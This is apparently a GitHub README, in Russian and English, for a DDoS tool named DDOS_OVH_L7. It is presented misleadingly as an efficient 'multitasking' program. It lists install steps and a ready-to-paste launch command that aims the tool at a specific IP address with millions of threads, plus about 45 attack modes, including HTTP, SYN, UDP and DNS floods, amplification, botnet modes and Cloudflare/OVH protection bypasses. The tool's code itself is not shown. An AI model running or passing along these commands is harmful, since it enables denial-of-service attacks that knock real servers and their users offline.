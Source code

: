 # DDOS_OVH_L7

termux kali linux DDOS L7
🚀 Привет, сообщество GitHub! 🚀

Рад представить вам мой последний проект - программу, которая выполняет многозадачные операции с учетом эффективности на первом месте! 🎯

Основные особенности проекта:
📌 Многозадачность: Моя программа способна обрабатывать множество задач одновременно, что позволяет вам более эффективно управлять ресурсами.
💻 Максимальное использование ЦПУ и оперативной памяти: Я максимизировал вычислительную мощность, чтобы обеспечить вам скорость и производительность. 🚄
🌐 Минимальное потребление интернет-трафика: Моя программа снижает нагрузку на вашу сеть, позволяя вам экономить драгоценный интернет-трафик.

Для запуска программы, сначала убедитесь, что у вас установлены необходимые библиотеки и пакеты. Выполните следующие команды в вашем терминале для их установки:

```
pip install requests
pip install requests_toolbelt
pip install socks
pip install PySocks
pip install httpx
pip install scapy
pkg install python-cryptography
pip install aiohttp
pip install ntplib
git clone https://github.com/MaksimBoykoMusic/DDOS_OVH_L7.git
cd DDOS_OVH_L7
Run Python Script: python DDOS_OVH.py --url http://37.187.56.77 --method OVH GET --threads 9999999
```

```
Доступные методы 'GET', 'POST', 'HEAD', 'HTTP-SYN', 'HTTP-SYN-TPC', 'OVH', 'OVH BOT', 'DGB', 'AVB', 'CFBUAM', 'BYPASS', 'CFB', 'GSB', 'uambypass', 'BOTNET_V1','BOTNET_V2', 'SYN', 'AMP', 'socks_cflow', 'TCP_ATTACK', 'CFSOC', 'BOMB', 'ovh2', 'STRESS', 'Connection', 'TLSv2', 'cc', 'ntp_mem','ICMPFlood','UDPFlood','udp_flood','attackSKY','RHEX','NULL','COOKIES','Launchspoof','attackbypass','LaunchCFPRO','dgb_solver','http_flood','PPS','dns_flood','BOT_V1','https_spoof','KILLER'
```

Я уже не могу дождаться, когда вы попробуете эту программу и поделитесь своими впечатлениями. Приглашаю вас внести свой вклад и присоединиться к этому захватывающему проекту! 💪

🚀 Hello, GitHub community! 🚀

I'm excited to introduce my latest project - a program that performs multitasking operations with efficiency as a top priority! 🎯

Key features of the project:
📌 Multitasking: My program is capable of handling multiple tasks simultaneously, allowing you to manage resources more effectively.
💻 Maximum CPU and memory utilization: I've maximized computational power to provide you with speed and performance. 🚄
🌐 Minimal internet traffic consumption: My program reduces the load on your network, helping you save precious internet bandwidth.

To run the program, first ensure that you have the required libraries and packages installed. Execute the following commands in your terminal to install them:

```
pip install requests
pip install requests_toolbelt
pip install socks
pip install PySocks
pip install httpx
pip install scapy
pkg install python-cryptography
pip install aiohttp
pip install ntplib
git clone https://github.com/MaksimBoykoMusic/DDOS_OVH_L7.git
cd DDOS_OVH_L7
Run Python Script: python DDOS_OVH.py --url http://37.187.56.77 --method OVH GET --threads 9999999
```

Some other packages, such as socks, ipaddress, and ntplib, may already be installed as they are often part of the standard Python library.

After installing all the necessary dependencies, you can run the program using the following command

```
Available methods include 'GET,' 'POST,' 'HEAD,' 'HTTP-SYN,' 'HTTP-SYN-TPC,' 'OVH,' 'OVH BOT,' 'DGB,' 'AVB,' 'CFBUAM,' 'BYPASS,' 'CFB,' 'GSB,' 'uambypass,' 'BOTNET_V1,' 'BOTNET_V2,' 'SYN,' 'AMP,' 'socks_cflow,' 'TCP_ATTACK,' 'CFSOC,' 'BOMB,' 'ovh2,' 'STRESS,' 'Connection,' 'TLSv2,' 'cc,' 'ntp_mem,' 'ICMPFlood,' 'UDPFlood,' 'udp_flood,' 'attackSKY,' 'RHEX,' 'NULL,' 'COOKIES,' 'Launchspoof,' 'attackbypass,' 'LaunchCFPRO,' 'dgb_solver,' 'http_flood,' 'PPS,' 'dns_flood,' 'BOT_V1,' 'https_spoof,' 'KILLER.'
```

I can't wait for you to try out this program and share your feedback. I invite you to contribute and be a part of this exciting project! 💪
